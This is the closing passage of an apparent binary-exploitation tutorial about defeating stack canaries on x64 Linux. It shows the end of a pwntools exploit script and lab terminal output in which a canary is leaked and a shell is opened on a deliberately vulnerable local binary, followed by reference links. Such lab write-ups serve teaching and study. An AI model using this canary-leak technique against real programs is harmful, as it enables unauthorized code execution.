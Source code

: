 ```Py
io.sendline(buf)

io.interactive()
```
And after executing the exploit, no surprise, execution gained:
```
lab@lab-VirtualBox:~/canary$ python3 exploit.py 
[*] '/home/lab/canary/vuln_canary'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Spawning process...
[+] Starting local process '/home/lab/canary/vuln_canary': pid 18398
[+] Canary leaked:0x9a67985edc03e800
[*] Switching to interactive mode
Hi there AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA !!
$ ls
exploit.py  script.rr2    vuln_base  vuln_canary      vuln_print.c
payload     vuln    vuln.c       vuln_canary.c
$  
```

And that was it for today. Let's keep learning!


#### References

[ch0pin's blog](https://valsamaras.medium.com/introduction-to-x64-linux-binary-exploitation-part-4-stack-canaries-e9b6dd2c3127)
[Format string bugs](https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)
